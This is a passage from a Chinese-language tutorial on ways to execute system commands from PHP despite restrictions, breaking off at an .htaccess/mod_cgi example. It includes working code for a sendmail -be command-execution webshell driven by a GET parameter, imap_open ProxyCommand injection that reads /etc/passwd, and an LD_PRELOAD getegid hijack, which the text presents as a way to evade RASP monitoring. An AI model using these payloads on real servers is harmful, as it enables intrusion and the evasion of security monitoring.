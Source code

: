 默认情况下 sendmail时不支持 -be参数的，如何测试主机上的sendmail是否支持-be扩展呢？ 使用sendmail执行whoami，如果成功则没有问题：

```
[root@VM_0_13_centos phpscan]# sendmail -be '${run{/usr/bin/whoami}}'root
```

借用github中使用mail 实现命令执行的开源代码：

```
<?php$c = @$_GET['lemon'];$result_file = "/tmp/test.txt";$tmp_file = '/tmp/aaaa.sh';$command = $c . '>' . $result_file;file_put_contents($tmp_file, $command);$payload = "-be \${run{/bin/bash\${substr{10}{1}{\$tod_log}}/tmp/aaaa.sh}{ok}{error}}";mail("a@localhost", "", "", "", $payload);echo file_get_contents($result_file);@unlink($tmp_file);@unlink($result_file);?>
```

除了mail函数，还有imap_open 函数在ssh建立连接可利用\t代替空格进行-o ProxyCommand参数命令拼接，从而调用系统shell执行命令。示例代码如下：

```
<?php$encoded_payload = base64_encode("cat /etc/passwd >/tmp/result");$server = "any -o ProxyCommand=echo\t".$encoded_payload."|base64\t-d|bash";@imap_open('{'.$server.'}:143/imap}INBOX', '', '') or die("\n\nError: ".imap_last_error());echo file_get_contents("/tmp/result");?>
```

## 4.LD_PRELOAD

LD_PRELOAD 是Linux中比较特殊的环境变量，它允许用户指定程序运行前优先加载的动态链接库。在php中，可使用putenv()函数设置LD_PRELOAD环境变量来加载指定的so文件，so文件中包含自定义函数进行劫持从而达到执行恶意命令的目的。

mail() 、 error_log()、ImageMagick() 是常用于劫持的触发函数，原因是在运行的时候能够启动子进程，这样才能重新加载我们所设置的环境变量，从而劫持子进程所调用的库函数。

以mail函数为例：mail函数在运行时，会启动子进程来调用系统的sendmail，sendmail引用了getegid() 函数。

那么我们可以通过重写 getegid() 函数编译为so文件,代码内部执行了whoami：

```
#include <unistd.h>#include <sys/types.h>uid_t getegid(void){  if (getenv("LD_PRELOAD") == NULL){        return 0;    }    unsetenv("LD_PRELOAD");    system("whoami");    return 0;}
```

在利用过程中，通过设置LD_PRELOAD环境变量引入自定义的so库。由于真正的恶意代码运行在php之外的进程，自然避过了RASP监控。

```
<?phpputenv("LD_PRELOAD=./getegid.so");mail("","","","");
```

## 5. htaccess和mod_cgi

在apache的WEB环境中，我们经常会使用.htaccess这个文件来确定某个目录下的URL重写规则，如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP来执行系统命令。需要满足四个条件:

1. apache环境
2. mod_cgi为启用状态
3. 允许.htaccess文件，即在httpd.conf中，AllowOverride选项为All，而不是none
4. 有权限写.htaccess文件

举个例子：

.htaccess内容：
